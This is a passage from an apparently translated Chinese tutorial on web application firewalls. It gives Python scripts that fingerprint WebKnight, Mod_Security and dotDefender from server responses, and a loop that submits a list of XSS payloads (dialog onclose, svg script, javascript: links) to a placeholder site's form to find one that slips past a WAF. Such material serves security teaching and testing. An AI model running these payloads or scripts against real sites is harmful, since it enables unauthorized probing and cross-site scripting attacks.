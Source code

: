 可以很直观的看到，响应内容直接输出了之前提交的Payload。这就意味着，后端Web应用并没有过滤这段Payload，也没有部署任何WAF来阻断这个恶意请求。

现在，万事俱备，只欠东风。

## 第五步：检测是否存在WAF

变量`response`存储了服务器的响应内容，可以用它来简单检测下面几个WAF：

1. WebKnight
1. Mod_Security
1. Dot Defender

来看看Python如何实现它：

```python
if response.find('WebKnight') >= 0:
    print "Firewall detected: WebKnight"
elif response.find('Mod_Security') >= 0:
    print "Firewall detected: Mod Security"
elif response.find('dotDefender') >= 0:
    print "Firewall detected: Dot Defender"
else:
    print "No Firewall Present"
```

- 如果后端部署了Web Knight，响应内容中会包含『WebKnight』字符串
- 如果后端使用了Mod Security，响应内容中会包含『Mod_Security』字符串
- 如果后端部署了Dot Defender，响应内容中则会包含『dotDefender』字符串

你可以收集更多其他的WAF特征，来扩展这个小脚本 *（译者注：在检测逻辑中，最好能缩小待检测内容的范围，或者在最开始传入合适的URL，降低误报率）* 。

## 暴力绕过WAF

文章开头就提到过，目前大部分WAF都是基于特征来检测和阻断恶意请求的。但是各种语言和环境特性导致可被用于攻击的Payload以及它们的变体成百上千，你可以把它们放在列表里，一个个尝试，记录每次请求的响应，看看是否可以绕过WAF。

上Python：

```python
listofPayloads = ['<dialog open="" onclose="alert(1)"><form method="dialog"><button>Close me!</button></form></dialog>', '<svg><script>prompt&#40 1&#41<i>', '<a href="javascript:alert(1)">CLICK ME<a>']
for Payload in listofPayloads:
    maliciousRequest = mec.Browser()
    formName = 'waf'

    maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
    maliciousRequest.select_form(formName)
    maliciousRequest.form['data'] = Payload
    maliciousRequest.submit()

    response = maliciousRequest.response().read()
    if response.find('WebKnight') >= 0:
        print "Firewall detected: WebKnight"
    elif response.find('Mod_Security') >= 0:
        print "Firewall detected: Mod Security"
    elif response.find('dotDefender') >= 0:
        print "Firewall detected: Dot Defender"
    else:
        print "No Firewall Present"
```
